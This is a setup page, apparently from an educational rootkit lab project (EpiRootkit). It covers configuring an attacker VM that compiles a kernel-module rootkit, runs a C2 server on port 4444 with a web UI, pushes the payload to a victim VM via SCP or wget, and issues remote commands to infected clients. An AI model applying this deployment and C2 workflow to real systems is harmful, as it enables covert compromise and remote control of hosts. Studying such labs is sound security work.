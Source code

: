 ```yaml
---
title: "Attacker VM Setup"
description: "Configure the attacking VM with C2 server and web interface"
icon: "terminal"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 203
---
```


# Attacker VM Setup

Configure the attacking VM with Node.js C2 server and React web interface.

## Prerequisites

1. **Host setup complete**: [Host Environment Setup]({{< relref "environment.md" >}})
2. **VM downloaded**: `vm/attacker.qcow2` in project root
3. **VM launched**: `sudo ./scripts/run_vms.sh attacker`

## VM Access

**Connection Details:**
- **IP Address**: 192.168.200.11 (static)
- **Username**: `attacker` 
- **Password**: `jules`
- **Auto-login**: Enabled (no password prompt)

## Setup Method

{{< tabs tabTotal="2" >}}

{{% tab tabName="Pre-built Disk (Recommended)" %}}

### Quick Start

Everything is already set up, so you can immediately build and run:

```bash
# Inside attacker VM (already logged in)
cd epirootkit

# Build rootkit payload for victim deployment
cd rootkit && make clean && make
ls -la epirootkit.ko  # ✅ Compiled payload ready

# Start C2 server
cd ../attacking_program && pnpm install && pnpm start
# ✅ C2 server started on port 4444
# ✅ Web interface started on port 3000
```

### Ready to Use
- **Web Interface**: `http://192.168.200.11:3000`
- **File transfer**: Ready to deploy payload to victim VM

{{% /tab %}}

{{% tab tabName="Self-build from Scratch" %}}

### Fresh VM Setup

If using a fresh Ubuntu VM, you MUST first install dependencies on the attacker VM:

> **⚠️ Required for Fresh VMs**: Run `./scripts/setup_attacker.sh` inside the attacker VM to install Node.js, npm, pnpm, gcc, and other dependencies.

Choose your preferred setup method:

#### Method 1: Automated (Recommended)

**One-Command Setup from Host**
Run this from your host machine (not inside the VM):

```bash
# From host project directory
./scripts/deploy_to_attacker.sh

# ✅ Transfers project files to VM
# ✅ Runs setup_attacker.sh remotely  
# ✅ Installs all dependencies
# 🎉 Ready to build and start
```

**Build and Start**
SSH into the VM and complete setup:
```bash
# SSH into attacker VM
ssh attacker@192.168.200.11

# Build rootkit and start C2 server
cd epirootkit/rootkit && make clean && make
cd ../attacking_program && pnpm install && pnpm start
# ✅ Web interface: http://192.168.200.11:3000
```

#### Method 2: Manual Step-by-Step

**1. Transfer Project Files**
First, get the EpiRootkit project into the VM.

📖 **Complete Guide**: [Host to VM File Transfer]({{< relref "file-transfer.md" >}})

**Recommended: SCP Transfer**
```bash
# From host machine
scp -r /path/to/epirootkit attacker@192.168.200.11:~/

# Then SSH into attacker VM
ssh attacker@192.168.200.11
cd epirootkit
```

**Alternative Methods:**
- **HTTP**: Host runs `python3 -m http.server`, VM downloads with `wget`
- **Shared Folder**: Mount host directory, copy to VM

**2. Install Dependencies (REQUIRED)**
Run the setup script inside the attacker VM:
```bash
# Inside attacker VM, from epirootkit directory
./scripts/setup_attacker.sh

# Installs: Node.js, npm, pnpm, gcc, make, linux-headers, python3, openssh-server
# ✅ Verifies all installations
# 🎉 Ready for build step
```

**3. Build and Start**
Build the rootkit and start the C2 server:
```bash
# Build rootkit payload for victim deployment
cd rootkit && make clean && make
ls -la epirootkit.ko  # ✅ Payload ready

# Install C2 dependencies and start server
cd ../attacking_program && pnpm install && pnpm start
# ✅ C2 server started on port 4444
# ✅ Web interface started on port 3000
```

{{% /tab %}}

{{< /tabs >}}

## Usage

### Deploy Payload to Victim
Transfer the compiled rootkit and deployment script to victim VM:

```bash
# Option A: SCP transfer (requires SSH on victim)
scp rootkit/epirootkit.ko rootkit/deploy_rootkit.sh victim@192.168.200.10:~/

# Option B: HTTP download (Python server)
cd rootkit && python3 -m http.server 8080
# On victim: wget http://192.168.200.11:8080/{epirootkit.ko,deploy_rootkit.sh}

# Option C: Web UI upload (via attacking program)
# Use web interface file transfer panel for both files
```

### Monitor C2 Connections
```bash
# List connected clients
ls

# Wait for victim to load module and connect
# Then authenticate and control
auth Client-1 password
exec Client-1 whoami
```

### Web Interface
Access from any device on the network:
- **URL**: `http://192.168.200.11:3000`
- **Login Password**: `password`
- **Features**: Full payload deployment and C2 control

## Configuration Notes

### Attacker VM Role
- **Builds rootkit**: Compiles `epirootkit.ko` for victim deployment
- **C2 server**: Hosts command & control server on port 4444
- **Web interface**: Provides web UI on port 3000
- **File transfer**: Transfers payload to victim via HTTP/SCP/Web UI

### Network Configuration
- **Attacker VM IP**: `192.168.200.11` (static)
- **Default C2 port**: `4444` (matches rootkit defaults)
- **Web interface**: `http://192.168.200.11:3000`

For victim deployment details, see [Victim VM Setup]({{< relref "victim-vm-setup.md" >}}).

## Next Steps

1. **Victim Setup**: [Victim VM Setup]({{< relref "victim-vm-setup.md" >}})
2. **Deploy Rootkit**: Connect victim to this C2 server
3. **Monitor**: Watch for client connections
